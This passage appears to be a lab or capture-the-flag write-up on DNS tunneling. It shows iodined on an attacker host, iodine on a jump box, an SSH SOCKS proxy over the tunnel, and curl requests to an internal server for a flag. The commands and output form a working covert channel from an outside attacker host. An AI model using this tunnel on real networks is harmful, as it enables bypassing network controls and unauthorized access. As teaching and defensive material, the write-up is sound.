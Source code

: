 # DNS tunneling

This technique is also known as `TCP` over `DNS`, where an attacker encapsulates other protocols, such as HTTP 
requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS Tunneling establishes a 
communication channel where data is sent and received continuously.

Star `iodined` server on the thm attacker host:

    thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com                                                                                                                                                                     
    Opened dns0
    Setting IP of dns0 to 10.1.1.1
    Setting MTU of dns0 to 1130
    Opened IPv4 UDP socket
    Listening to dns for domain att.tunnel.com

Start `iodine` client on the jump host:

    thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
    [sudo] password for thm: 
    Opened dns0
    Opened IPv4 UDP socket
    Sending DNS queries for att.tunnel.com to 127.0.0.11
    Autodetecting DNS query type (use -T to override).
    Using DNS type NULL queries
    Version ok, both using protocol v 0x00000502. You are user #0
    Setting IP of dns0 to 10.1.1.2
    Setting MTU of dns0 to 1130
    Server tunnel IP is 10.1.1.1
    Testing raw UDP data to the server (skip with -r)
    Server is at 172.20.0.200, trying raw login: OK
    Sending raw traffic directly to 172.20.0.200
    Connection setup complete, transmitting data.
    Detaching from terminal...

Start another terminal and jump to the attacker host. SSH over DNS:

    thm@attacker:~$ sudo ssh thm@10.1.1.2 -4 -f -N -D 1080
    [sudo] password for thm: 
    The authenticity of host '10.1.1.2 (10.1.1.2)' can't be established.
    ECDSA key fingerprint is SHA256:Ks0kFNo7GTsv8uM8bW78FwCCXjvouzDDmATnx1NhbIs.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.1.1.2' (ECDSA) to the list of known hosts.
    thm@10.1.1.2's password: 

With this connection to the jump host over the `dns0` network, we can access resources:

    thm@attacker:~$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    <hr>
    <address>Apache/2.4.41 (Ubuntu) Server at 192.168.0.100 Port 80</address>
    </body></html>

Get the flag:

    thm@attacker:~$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/test.php